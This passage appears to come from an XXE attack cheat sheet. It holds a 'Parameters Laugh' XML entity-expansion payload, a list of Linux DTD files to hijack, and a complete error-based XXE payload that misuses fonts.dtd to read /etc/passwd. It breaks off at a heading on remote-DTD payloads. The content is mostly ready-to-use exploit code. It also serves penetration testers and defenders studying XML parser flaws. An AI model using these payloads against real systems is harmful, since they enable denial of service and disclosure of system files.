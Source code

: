 ### Parameters Laugh attack

A variant of the Billion Laughs attack, using delayed interpretation of parameter entities, by Sebastian Pipping.

```xml
<!DOCTYPE r [
  <!ENTITY % pe_1 "<!---->">
  <!ENTITY % pe_2 "&#37;pe_1;<!---->&#37;pe_1;">
  <!ENTITY % pe_3 "&#37;pe_2;<!---->&#37;pe_2;">
  <!ENTITY % pe_4 "&#37;pe_3;<!---->&#37;pe_3;">
  %pe_4;
]>
<r/>
```


## Exploiting Error Based XXE

### Error Based - Using Local DTD File

Short list of dtd files already stored on Linux systems; list them with `locate .dtd`:

```xml
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/share/xml/svg/svg10.dtd
/usr/share/xml/svg/svg11.dtd
/usr/share/yelp/dtd/docbookx.dtd
```

The file `/usr/share/xml/fontconfig/fonts.dtd` has an injectable entity `%constant` at line 148: `<!ENTITY % constant 'int|double|string|matrix|bool|charset|langset|const'>`

The final payload becomes: 
```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % constant 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///patt/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>
    %local_dtd;
]>
<message>Text</message>
```


### Error Based - Using Remote DTD

**Payload to trigger the XXE**
